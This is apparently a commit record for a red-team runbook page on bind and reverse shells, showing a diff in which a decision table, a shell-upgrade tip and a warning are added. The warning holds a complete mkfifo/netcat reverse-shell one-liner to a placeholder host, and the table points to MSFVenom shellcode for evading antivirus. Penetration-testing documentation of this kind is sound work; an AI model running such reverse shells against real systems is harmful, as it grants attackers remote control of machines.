

Before and after one commit to aelder202/red-team-runbook, an MkDocs documentation site: the page built from docs/exploitation/shells/bind-reverse-shells.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
audit: exploitation shells and frameworks — decision context and annotations
Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

```diff
--- a/docs/exploitation/shells/bind-reverse-shells.md
+++ b/docs/exploitation/shells/bind-reverse-shells.md
@@ -1,4 +1,18 @@
-Shells provide direct interaction with the target system. A bind shell listens on a specific port for a connection, while a reverse shell makes an outbound connection to an attacker's machine. Reverse shells are preferred in restricted environments as they bypass firewall rules that block inbound connections.
+### Bind vs. Reverse Shell Decision Table
+
+| Situation | Use |
+|---|---|
+| Firewall blocks inbound to target | Reverse shell |
+| Firewall blocks outbound from target | Bind shell |
+| Need interactive shell upgrade | `python3 -c 'import pty; pty.spawn("/bin/bash")'` then `stty raw -echo; fg` |
+| Target is Windows, no AV | PowerShell reverse shell |
+| Target is Windows, AV active | MSFVenom staged shellcode or manual C# |
+
+!!! tip "Tip"
+    After catching a reverse shell, immediately upgrade it: `python3 -c 'import pty; pty.spawn("/bin/bash")'`, then background with Ctrl+Z, run `stty raw -echo; fg`, then `export TERM=xterm`. Skipping this makes tab completion and Ctrl+C unusable.
+
+!!! warning "Watch out"
+    Netcat on BSD (macOS) doesn't support `-e`. Use `ncat` from nmap or `mkfifo` instead: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> >/tmp/f`.
 
 ### Checking for Network Restrictions
 
```
Also changed, not shown: docs/exploitation/frameworks/metasploit.md (+6 -2 lines), docs/exploitation/frameworks/msfvenom.md (+5 -1 lines), docs/exploitation/shells/escaping-restricted-shells.md (+12 -2 lines), docs/exploitation/shells/web-shells.md (+5 -14 lines).
